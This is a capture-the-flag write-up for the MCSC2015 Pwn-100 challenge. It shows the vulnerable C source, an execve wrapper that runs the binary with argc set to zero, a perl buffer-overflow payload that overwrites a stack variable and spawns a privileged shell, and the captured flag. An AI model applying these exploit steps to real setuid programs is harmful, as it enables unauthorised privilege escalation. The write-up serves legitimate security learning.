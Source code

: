 #MCSC2015 writeup for Pwn-100<br>

```
pwn0@MCSC2015:/challenges/pwn0$ ls -l
total 16
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c
pwn1@MCSC2015:/challenges/pwn0$ /tmp/checksec.sh --file 0
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   0
pwn0@MCSC2015:/challenges/pwn0$ cat /proc/sys/kernel/randomize_va_space
2
```
checksec.sh cant be found at : https://github.com/slimm609/checksec.sh/blob/master/checksec <br>
There's no canary, NX is disabled, nothing but good news<br>
ASLR is on !!<br>
Having the options used when compiling the binary, we can get to the same conclusion ...<br>
gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o 0.c<br>
-mpreferred-stack-boundary=2 ( pointers inside the  stack are on 4-byte boundary )  :) <br>
after a quick view in pwn0.c, here's an interesting function<br>
<br>
```C
void vuln()
{
	unsigned int reg;
	char buffer[BUFF_SIZE];
	fgets(buffer , BUFF_SIZE+5 , stdin);
	if(reg == 78954)
	{
		printf("You Win\n");
		system("/bin/dash");
	}
}
```
However, this function is executed if and only if argc is equal to zero.<br>
In that case, execve can be handy ...<br>
<br>
<br>
Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.<br>
Step 2 : overwrite the variable reg with 78954<br>
``````
if(reg == 78954)
{
	printf("You Win\n");
	system("/bin/dash");
}
```

Step1 : run a program with argc=0<br>
What's special about the family exec call system ?<br>
execve allows you to specify the command-line arguments (including the program name).<br>
a normal call to execve for example would be :<br>
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....<br>
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.<br>
<br>
with that said, let's start exploiting .....<br>
First, we write a small program <br>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>

```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#<br>
```
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing
pwn0@MCSC2015:/tmp$ cd /tmp/testing/
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c
```
```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
```
```
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper
pwn0@MCSC2015:/tmp/testing$ ./wrapper
Good Boy
test
pwn0@MCSC2015:/tmp/testing$
```
we are finally able to execute the vuln() function, let's try to exploit it:<br>
The buffer size is 64, 78954 to hexadecimal is 0x1346A<br>
===========================<br>
A successful exploitation would be like this:<br>
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input<br>
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper <br>
Good Boy<br>
You Win<br>
id<br>
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)<br>
cat FLAG<br>
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}<br>
<br>
